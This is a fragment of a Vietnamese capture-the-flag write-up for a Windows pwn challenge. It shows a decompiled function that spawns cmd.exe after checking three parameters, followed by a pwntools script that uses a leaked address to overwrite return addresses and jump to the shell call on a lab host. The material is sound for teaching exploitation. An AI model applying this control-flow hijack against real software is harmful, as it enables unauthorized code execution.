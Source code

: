 



- magic : hàm này sẽ là target của bài , ta thấy nó check từng đối số , ở linux thì ta có thể dùng các lệnh ```pop``` để thiết lập , tuy nhiên thì cũng không cần thiết lắm , ta có thể nhảy thẳng vào và thực thi ```WinExec("cmd.exe", 0)``` luôn
```
void __cdecl magic(const char *param1, int param2, const char *param3)
{
  if ( !strcmp(param1, "B33F50UP") )
  {
    if ( param2 == 1337 )
    {
      if ( !strcmp(param3, "open_sesame") )
      {
        puts("All parameters are correct. Opening shell...");
        WinExec("cmd.exe", 0);
      }
      else
      {
        puts("Parameter 3 is incorrect!");
      }
    }
    else
    {
      puts("Parameter 2 is incorrect!");
    }
  }
  else
  {
    puts("Parameter 1 is incorrect!");
  }
}
```

script 

```
#!/usr/bin/python3

from pwn import *

p = remote('172.31.0.3', 56001)

p.recvuntil(b'Something important: ')
main = int(p.recvline()[:-1],16) - 0x14DB
target = 0x14c1
print(hex(main))

p.sendline(p64(main+target)*60)

p.interactive()
```
